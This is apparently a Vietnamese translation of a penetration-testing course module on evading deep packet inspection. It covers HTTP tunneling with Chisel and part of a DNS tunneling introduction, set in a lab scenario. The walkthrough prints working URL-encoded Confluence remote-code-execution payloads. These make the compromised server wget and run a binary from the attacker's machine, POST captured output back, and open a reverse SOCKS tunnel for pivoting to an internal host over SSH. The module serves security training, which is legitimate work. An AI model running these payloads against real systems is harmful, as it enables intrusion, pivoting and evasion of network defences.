

# Tunneling Through Deep Packet Inspection

# Tunneling Through Deep Packet Inspection

---

Trong Learning Module này, chúng ta sẽ bao gồm các Learning Unit sau:

- Lý thuyết và thực hành HTTP Tunneling
- Lý thuyết và thực hành DNS Tunneling

Deep packet inspection là một công nghệ được triển khai để giám sát lưu lượng dựa trên một tập các quy tắc. Nó thường được sử dụng nhất ở vành đai mạng (network perimeter), nơi nó có thể làm nổi bật các mẫu (patterns) cho thấy dấu hiệu của sự xâm nhập (compromise).

Các thiết bị deep packet inspection có thể được cấu hình để chỉ cho phép các giao thức tầng vận chuyển (transport protocols) cụ thể đi vào, đi ra, hoặc đi ngang qua mạng. Ví dụ, một quản trị viên mạng có thể tạo một quy tắc chấm dứt mọi lưu lượng SSH outbound. Nếu họ triển khai quy tắc đó, tất cả các kết nối sử dụng SSH làm tầng vận chuyển sẽ thất bại, bao gồm cả bất kỳ chiến lược chuyển hướng cổng (port redirection) và tunneling qua SSH mà chúng ta đã triển khai.

Với sự đa dạng của các hạn chế có thể được triển khai trên một mạng, chúng ta cần học và tận dụng một số lượng các công cụ và chiến lược tunneling khác nhau để vượt qua thành công các công nghệ như deep packet inspection.

Trong Module này, chúng ta sẽ tiếp tục từ Module Port Redirection và SSH Tunneling trước đó, tận dụng nhiều khái niệm mà chúng ta đã giới thiệu ở đó. Hầu hết học viên nên hoàn thành Module đó trước khi bắt đầu Module này.

---

# 1. Lý thuyết và Thực hành HTTP Tunneling

---

Learning Unit này bao gồm các Learning Objective sau:

- Tìm hiểu về HTTP tunneling
- Thực hiện HTTP tunneling với Chisel

Trong Learning Unit này, chúng ta sẽ khám phá khái niệm HTTP tunneling, cũng như cách thực hiện nó bằng một công cụ có tên là chisel.

---

## 1.1. Các nguyên lý cơ bản của HTTP Tunneling

---

Hãy bắt đầu việc khám phá HTTP tunneling bằng cách đưa ra một kịch bản đơn giản. Trong trường hợp này, chúng ta đã xâm nhập được CONFLUENCE01 và có thể thực thi lệnh thông qua các HTTP request. Tuy nhiên, khi chúng ta cố gắng pivot, chúng ta bị chặn bởi một cấu hình mạng có mức độ hạn chế rất cao.

Cụ thể, một giải pháp Deep Packet Inspection (DPI) hiện đang chấm dứt toàn bộ lưu lượng outbound ngoại trừ HTTP. Ngoài ra, tất cả các cổng inbound trên CONFLUENCE01 đều bị chặn, ngoại trừ TCP/8090. Chúng ta không thể dựa vào một reverse shell thông thường vì nó sẽ không tuân theo định dạng HTTP và sẽ bị giải pháp DPI chặn tại vành đai mạng. Chúng ta cũng không thể tạo một SSH remote port forward vì cùng lý do đó. Lưu lượng duy nhất có thể đến được máy Kali của chúng ta là HTTP, do đó chúng ta có thể, ví dụ, gửi các request bằng Wget và cURL.

*Đây là một kịch bản giả định: trên thực tế chúng ta chưa triển khai bất kỳ cơ chế deep packet inspection nào trong exercise lab! Tuy nhiên, việc hình dung các hạn chế này có thể giúp chúng ta phát triển các chiến lược tunneling vững chắc.*

Cấu hình mạng cho kịch bản này được thể hiện trong sơ đồ sau:



*Hình 1: Thiết lập mạng với một firewall/deep packet inspector giám sát luồng dữ liệu đến CONFLUENCE01 trên giao diện WAN*

Trong trường hợp này, thiết bị FIREWALL/INSPECTOR đã thay thế firewall đơn giản trước đó. Ngoài ra, MULTISERVER03 bị chặn trên giao diện WAN.

Chúng ta có thông tin xác thực cho máy chủ PGDATABASE01, nhưng cần tìm ra cách SSH trực tiếp đến đó thông qua CONFLUENCE01. Chúng ta cần một đường hầm vào mạng nội bộ, nhưng nó phải có hình thức giống như một kết nối HTTP outbound xuất phát từ CONFLUENCE01.

---

## 1.2. HTTP Tunneling với Chisel

---

Kịch bản ở trên là một tình huống hoàn hảo cho Chisel, một công cụ HTTP tunneling đóng gói (encapsulates) luồng dữ liệu của chúng ta bên trong HTTP. Nó cũng sử dụng giao thức SSH bên trong đường hầm, vì vậy dữ liệu của chúng ta sẽ được mã hóa.

Chisel sử dụng mô hình client/server. Một Chisel server phải được thiết lập, có thể chấp nhận một kết nối từ Chisel client. Nhiều tùy chọn port forwarding khác nhau có sẵn tùy theo cấu hình của server và client. Một tùy chọn đặc biệt hữu ích với chúng ta là reverse port forwarding, tương tự như SSH remote port forwarding.

*Chisel có thể chạy trên macOS, Linux và Windows, và trên nhiều kiến trúc khác nhau trên mỗi hệ điều hành. Các công cụ cũ hơn như HTTPTunnel cung cấp chức năng tunneling tương tự, nhưng thiếu tính linh hoạt và khả năng đa nền tảng (cross-platform) của Chisel.*

Bây giờ chúng ta đã biết Chisel có thể làm gì, chúng ta có thể lập kế hoạch. Chúng ta sẽ chạy một Chisel server trên máy Kali của mình, máy này sẽ chấp nhận một kết nối từ một Chisel client chạy trên CONFLUENCE01. Chisel sẽ bind một cổng SOCKS proxy trên máy Kali. Chisel server sẽ đóng gói bất cứ thứ gì chúng ta gửi qua cổng SOCKS và đẩy nó qua đường hầm HTTP, được mã hóa bằng SSH. Chisel client sau đó sẽ giải đóng gói (decapsulate) và đẩy nó đến nơi mà nó được địa chỉ hóa. Khi chạy, nó sẽ trông gần giống như sơ đồ sau:


  *Hình 2: Cách chúng ta dự định thiết lập mạng sẽ trông như thế nào khi chúng ta đã thiết lập Chisel*

Lưu lượng giữa Chisel client và server đều được định dạng theo HTTP. Điều này có nghĩa là chúng ta có thể đi xuyên qua giải pháp deep packet inspection bất kể nội dung của từng gói HTTP. Chisel server trên máy Kali của chúng ta sẽ lắng nghe trên TCP port 1080, một cổng SOCKS proxy. Toàn bộ lưu lượng được gửi đến cổng đó sẽ được chuyển ngược lên đường hầm HTTP về Chisel client, nơi nó sẽ được forward đến bất cứ đâu mà nó được địa chỉ hóa.

Hãy khởi động Chisel server và làm cho nó chạy trên máy Kali của chúng ta. Trong hướng dẫn sử dụng, chúng ta tìm thấy cờ `--reverse`. Khởi động Chisel server với cờ này sẽ có nghĩa là khi client kết nối, một cổng SOCKS proxy sẽ được bind trên server.

Trước khi chúng ta khởi động server, chúng ta nên copy file nhị phân (binary) Chisel client sang CONFLUENCE01. Thực ra Chisel server và client được chạy từ cùng một binary, chúng chỉ được khởi tạo với server hoặc client như là tham số đầu tiên.

*Nếu máy mục tiêu của chúng ta đang chạy một hệ điều hành hoặc kiến trúc khác, chúng ta phải tải xuống và sử dụng binary đã được biên dịch cho đúng hệ điều hành và kiến trúc đó từ trang Chisel Github releases.*

Trong trường hợp này, cả CONFLUENCE01 và máy Kali của chúng ta đều là các máy Linux amd64. Điều đó có nghĩa là chúng ta có thể thử chạy cùng một chisel binary mà chúng ta có trên máy Kali của mình trên CONFLUENCE01.

Để đưa Chisel binary lên CONFLUENCE01, chúng ta có thể tận dụng injection để tải nó từ máy Kali của chúng ta qua HTTP. Chúng ta có thể phục vụ chisel binary bằng Apache. Để làm điều này, trước tiên chúng ta phải copy Chisel binary vào thư mục webroot của Apache2 server.

```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ 
```

                            *Listing 1 - Sao chép Chisel binary vào thư mục của Apache2 server.*

Sau đó, chúng ta có thể đảm bảo Apache2 đã được khởi động trên máy Kali bằng systemctl.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

                                                             *Listing 2 - Khởi động Apache2.*

Tiếp theo, chúng ta sẽ xây dựng lệnh wget mà chúng ta muốn chạy thông qua injection trên CONFLUENCE01. Lệnh này sẽ tải chisel binary về /tmp/chisel và làm cho nó có thể thực thi:

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

*Listing 3 - Wget payload mà chúng ta dùng để tải Chisel binary về /tmp/chisel trên CONFLUENCE01 và làm cho nó có thể thực thi.*

Tiếp theo, chúng ta sẽ định dạng lệnh này để hoạt động với payload injection Confluence dùng curl của chúng ta.

*Như trước, bạn có thể sửa các phần cụ thể của payload RCE đã được URL-encode mà bạn cần, thay vì cố gắng tạo một payload mới từ đầu, để tránh khó khăn về định dạng.*

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

    *Listing 4 - Wget payload được thực thi bên trong lệnh cURL Confluence injection của chúng ta.*

File log của Apache2 (/var/log/apache2/access.log) cuối cùng sẽ cho thấy request tải Chisel binary đi vào:

```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

                    *Listing 5 - Request cho Chisel binary chạm tới Apache2 server của chúng ta.*

Bây giờ chúng ta đã có Chisel binary trên cả máy Kali và máy mục tiêu, chúng ta có thể chạy chúng. Trên máy Kali, chúng ta sẽ khởi động binary ở chế độ server với subcommand server, cùng với cổng bind (--port) và cờ --reverse để cho phép reverse port forward.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

                                             *Listing 6 - Khởi động Chisel server trên port 8080.*

Chisel server khởi động và xác nhận rằng nó đang lắng nghe trên port 8080, và reverse tunneling đã được bật.

Trước khi chúng ta thử chạy Chisel client, chúng ta sẽ chạy tcpdump trên máy Kali để ghi log lưu lượng đi vào. Chúng ta sẽ bắt (capture) với bộ lọc tcp port 8080 để chỉ bắt lưu lượng trên TCP port 8080.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

               *Listing 7 - Khởi động tcpdump để lắng nghe TCP/8080 thông qua interface tun0.*

Tiếp theo, chúng ta sẽ thử khởi động Chisel client bằng injection, áp dụng địa chỉ server và các tùy chọn cấu hình port forwarding trên dòng lệnh.

Chúng ta muốn kết nối tới server đang chạy trên máy Kali (192.168.118.4:8080), tạo một reverse SOCKS tunnel (R:socks). Tiền tố R chỉ định một reverse tunnel sử dụng một socks proxy (mặc định được bind tới port 1080). Các chuyển hướng shell còn lại (> /dev/null 2>&1 &) buộc tiến trình chạy ở chế độ nền, để injection của chúng ta không bị treo chờ tiến trình kết thúc.

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

                                   *Listing 8 - Lệnh Chisel client mà chúng ta chạy từ web shell.*

Chúng ta sẽ chuyển đổi nó thành một Confluence injection payload và gửi nó tới CONFLUENCE01.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

                      *Listing 9 - Khởi động Chisel client bằng Confluence injection payload.*

Tuy nhiên, không có gì xảy ra. Chúng ta không thấy bất kỳ lưu lượng nào chạm tới phiên Tcpdump của mình, và output của Chisel server cũng không hiển thị hoạt động nào.

Điều này cho thấy có thể có vấn đề với cách chúng ta đang chạy tiến trình Chisel client trên CONFLUENCE01. Tuy nhiên, chúng ta không có quyền truy cập trực tiếp vào output lỗi khi chạy binary. Chúng ta cần tìm ra một cách để đọc output của lệnh, thứ có thể giúp chỉ ra vấn đề. Sau đó chúng ta sẽ có thể giải quyết nó.

Để đọc output của lệnh, chúng ta có thể xây dựng một lệnh chuyển hướng output stdout và stderr vào một file, rồi gửi nội dung của file đó qua HTTP trở lại máy Kali. Chúng ta dùng toán tử &>, toán tử này chuyển mọi luồng sang stdout, và ghi nó vào /tmp/output. Sau đó chúng ta chạy curl với cờ --data, bảo nó đọc file tại /tmp/output, và POST nó trở lại máy Kali của chúng ta trên port 8080.

```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

                                                  *Listing 10 - Chuỗi lệnh thu thập lỗi và gửi đi.*

Sau đó chúng ta có thể tạo một injection payload bằng chuỗi lệnh này, và gửi nó tới instance Confluence dễ bị tấn công.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
kali@kali:~$
```

                                          *Listing 11 - Injection payload thu thập lỗi và gửi đi.*

Khi gửi injection mới này, chúng ta kiểm tra output Tcpdump để tìm các kết nối được thử.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```

                                            *Listing 12 - Output từ lệnh Chisel bị thất bại.*

Chúng ta nhận được output mà việc chạy /tmp/chisel tạo ra. Chisel đang cố gắng dùng glibc phiên bản 2.32 và 2.34, thứ mà máy chủ CONFLUENCE01 không có.

*Module này được viết vào năm 2023, sử dụng Chisel phiên bản 1.8.1-0kali2 (go1.20.7). Các repo của Kali nhiều khả năng sẽ chứa các phiên bản Chisel mới hơn trong tương lai, và thông điệp lỗi chính xác trả về từ các phiên bản Chisel mới hơn này có thể khác đi. Tuy nhiên, cùng một nguyên tắc vẫn áp dụng. Chúng ta đã gặp một lỗi khi cố chạy một payload trên hệ thống mục tiêu. Do đó, chúng ta phải tìm một payload thay thế có thể chạy được. Tìm cách vượt qua các trở ngại kiểu này là một kỹ năng quan trọng có thể áp dụng cho nhiều tình huống khác nơi phát sinh sự không tương thích công cụ.*

Điều này chỉ ra một sự không tương thích phiên bản. Khi một phiên bản của một công cụ hoặc thành phần mới hơn hệ điều hành mà nó đang cố chạy trên đó, sẽ có rủi ro rằng hệ điều hành không chứa các công nghệ cần thiết mà công cụ mới hơn đang kỳ vọng có thể sử dụng. Trong trường hợp này, Chisel đang kỳ vọng dùng glibc phiên bản 2.32 hoặc 2.34, nhưng cả hai đều không thể tìm thấy trên CONFLUENCE01.

Để thử tìm một giải pháp, trước tiên hãy kiểm tra thông tin phiên bản của Chisel binary mà chúng ta có trên Kali, thứ mà chúng ta cũng đang cố chạy trên CONFLUENCE01.

```
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel

kali@kali:~$ 
```

*Listing 13 - Phiên bản Chisel được báo cáo như một phần của output -h, cùng với phiên bản Go được dùng để biên dịch nó.*

Phiên bản Chisel đi kèm với phiên bản Kali cụ thể này là 1.8.1. Tuy nhiên, có một chi tiết khác quan trọng ở đây. Nó đã được biên dịch bằng Go phiên bản 1.20.7.

Lướt web một chút cho thấy các thông điệp tương tự xuất hiện khi các binary được biên dịch bằng Go phiên bản 1.20 trở lên được chạy trên các hệ điều hành không có phiên bản glibc tương thích.

Trên trang Github của Chisel, chúng ta tìm thấy một binary được biên dịch “official”, cũng phiên bản 1.81, được biên dịch bằng Go phiên bản 1.19.8. Phiên bản 1.19 thấp hơn một phiên bản so với phiên bản Go dường như đã giới thiệu sự không tương thích glibc này. Với điều đó, chúng ta có thể thử dùng Chisel 1.81 cho Linux trên bộ xử lý amd64 được biên dịch bằng Go 1.19. Binary này có sẵn trên repo Github chính của Chisel.

Trước tiên chúng ta có thể tải binary dạng gzip từ Github bằng wget. Chúng ta có thể giải nén nó bằng gunzip, rồi copy nó vào thư mục /var/www/html/ để chúng ta có thể phục vụ nó bằng Apache.

```
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

--2023-10-03 16:33:35--  https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
...
Length: 3494246 (3.3M) [application/octet-stream]
Saving to: ‘chisel_1.8.1_linux_amd64.gz’

chisel_1.8.1_linux_am 100%[========================>]   3.33M  9.38MB/s    in 0.4s    

2023-10-03 16:33:37 (9.38 MB/s) - ‘chisel_1.8.1_linux_amd64.gz’ saved [3494246/3494246]

kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz

kali@kali:~$ sudo cp ./chisel /var/www/html   
[sudo] password for kali:

kali@kali:~$ 
```

     *Listing 14 - Tải Chisel 1.81 từ repo Chisel chính, và copy nó vào thư mục web root của Apache.*

Việc này sẽ ghi đè bản sao Chisel mà chúng ta đã copy vào Apache web root trước đó. Sau đó chúng ta chỉ cần chạy cùng Wget injection như trước, để buộc máy chủ CONFLUENCE01 tải Chisel binary và ghi nó vào /tmp/chisel.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

*Listing 15 - Wget payload được thực thi bên trong lệnh cURL Confluence injection của chúng ta, một lần nữa.*

Sau đó chúng ta có thể thử chạy lại Chisel client trên CONFLUENCE01 bằng injection.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

           *Listing 16 - Thử khởi động Chisel client bằng Confluence injection payload, một lần nữa.*

Lần này, một loại lưu lượng khác được ghi lại trong phiên Tcpdump của chúng ta.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```

             *Listing 17 - Lưu lượng Chisel inbound được ghi lại bởi phiên tcpdump của chúng ta.*

Lưu lượng mà Tcpdump đã ghi lại chỉ ra rằng Chisel client đã tạo một kết nối HTTP WebSocket với server đang chạy trên máy Kali của chúng ta.

Ngoài ra, Chisel server của chúng ta đã ghi lại một kết nối inbound.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
2023/10/03 18:13:54 server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
2023/10/03 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

                                        *Listing 18 - Kết nối đến được ghi lại bởi Chisel server.*

Bây giờ, chúng ta có thể kiểm tra trạng thái của SOCKS proxy bằng ss.

```
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*
```

*Listing 19 - Dùng ss để kiểm tra xem cổng SOCKS của chúng ta có được mở bởi Kali Chisel server hay không.*

Cổng SOCKS proxy 1080 của chúng ta đang lắng nghe trên loopback interface của máy Kali.

Hãy dùng nó để kết nối tới SSH server trên PGDATABASE01. Trong Port Redirection và SSH Tunneling, chúng ta đã tạo các cổng SOCKS proxy bằng cả SSH remote và classic dynamic port forwarding, và dùng Proxychains để đẩy các công cụ không hỗ trợ SOCKS-native qua đường hầm. Nhưng chúng ta vẫn chưa thực sự chạy chính SSH qua một SOCKS proxy.

SSH không cung cấp một tùy chọn dòng lệnh SOCKS proxy chung. Thay vào đó, nó cung cấp tùy chọn cấu hình ProxyCommand. Chúng ta có thể viết nó vào một file cấu hình, hoặc truyền nó như một phần của dòng lệnh bằng -o.

ProxyCommand nhận một lệnh shell được dùng để mở một kênh có hỗ trợ proxy. Tài liệu gợi ý dùng phiên bản Netcat của OpenBSD, vốn cung cấp cờ -X và có thể kết nối tới một SOCKS hoặc HTTP proxy. Tuy nhiên, phiên bản Netcat đi kèm với Kali không hỗ trợ proxying.

Thay vào đó, chúng ta sẽ dùng Ncat, phiên bản thay thế của Netcat được viết bởi những người duy trì Nmap. Chúng ta có thể cài nó trên Kali bằng sudo apt install ncat.

```
kali@kali:~$ sudo apt install ncat
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  ncat
0 upgraded, 1 newly installed, 0 to remove and 857 not upgraded.
Need to get 487 kB of archives.
After this operation, 819 kB of additional disk space will be used.
Get:1 http://http.kali.org/kali kali-rolling/main amd64 ncat amd64 7.94+dfsg1-1kali2 [393 kB]
Fetched 487 kB in 5s (97.3 kB/s)
Selecting previously unselected package ncat.
(Reading database ... 298679 files and directories currently installed.)
Preparing to unpack .../ncat_7.94+dfsg1-1kali2_amd64.deb ...
Unpacking ncat (7.94+dfsg1-1kali2) ...
Setting up ncat (7.94+dfsg1-1kali2) ...
Processing triggers for man-db (2.11.2-3) ...
Processing triggers for kali-menu (2023.4.5) ...
kali@kali:~$ 
```

                                                        *Listing 20 - Cài đặt Ncat bằng apt.*

Bây giờ chúng ta sẽ truyền một lệnh Ncat cho ProxyCommand. Lệnh mà chúng ta tạo ra bảo Ncat dùng giao thức socks và socket proxy tại 127.0.0.1:1080. Các token %h và %p đại diện cho giá trị host và port của lệnh SSH, và SSH sẽ điền chúng vào trước khi chạy lệnh.

```
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
The authenticity of host '10.4.50.215 (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:IGz427yqW3ALf9CKYWNmVctA/Z/emwMWWRG5qQP8JvQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.4.50.215' (ED25519) to the list of known hosts.
database_admin@10.4.50.215's password:
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

Last login: Thu Jul 21 14:04:11 2022 from 192.168.97.19
database_admin@pgbackup1:~$
```

          *Listing 21 - Một kết nối SSH thành công thông qua đường hầm HTTP Chisel của chúng ta.*

Rất tốt! Chúng ta đã truy cập được SSH server, thông qua reverse SOCKS proxy Chisel của mình, tunneling lưu lượng qua một reverse HTTP tunnel.

Trong Learning Unit này, chúng ta đã tạo một reverse tunnel bằng Chisel, và sau đó dùng đường hầm này để đăng nhập vào một SSH server trên PGDATABASE01 bên trong mạng nội bộ. Chúng ta đã làm điều này chỉ với lưu lượng được định dạng HTTP đi tới và đi từ máy chủ pivot CONFLUENCE01 đã bị xâm nhập.

---

# 2. Lý thuyết và Thực hành DNS Tunneling

---

Learning Unit này bao gồm các Learning Objective sau:

- Tìm hiểu về DNS tunneling
- Thực hiện DNS tunneling với dnscat2

DNS là một trong những giao thức nền tảng của Internet và đã bị kẻ tấn công lạm dụng cho nhiều mục đích xấu khác nhau. Ví dụ, nó có thể đóng vai trò như một cơ chế để “tunnel” dữ liệu một cách gián tiếp đi vào và đi ra khỏi các môi trường mạng bị hạn chế. Để hiểu chính xác cơ chế này hoạt động như thế nào, hãy trình bày một “crash course” đơn giản về DNS. Sau đó, chúng ta sẽ học cách thực hiện DNS tunneling bằng một công cụ có tên là dnscat2.

---

## 2.1. Các nguyên lý cơ bản của DNS Tunneling

---

Địa chỉ IP, không phải các tên mà con người có thể đọc được, được dùng để định tuyến dữ liệu Internet. Bất cứ khi nào chúng ta muốn truy cập một domain bằng tên miền của nó, trước tiên chúng ta cần lấy địa chỉ IP của nó. Để truy xuất (hoặc phân giải) địa chỉ IP của một địa chỉ mà con người có thể đọc được, chúng ta cần hỏi nhiều DNS server khác nhau. Hãy đi qua quy trình phân giải địa chỉ IPv4 của “www.example.com”.

Trong hầu hết các trường hợp, chúng ta sẽ hỏi một DNS recursive resolver để lấy DNS address record (A record) của domain. A record là một kiểu dữ liệu DNS chứa một địa chỉ IPv4. Recursive resolver làm hầu hết công việc: nó sẽ thực hiện tất cả các DNS query sau cho đến khi thỏa mãn yêu cầu DNS, rồi trả về phản hồi cho chúng ta.

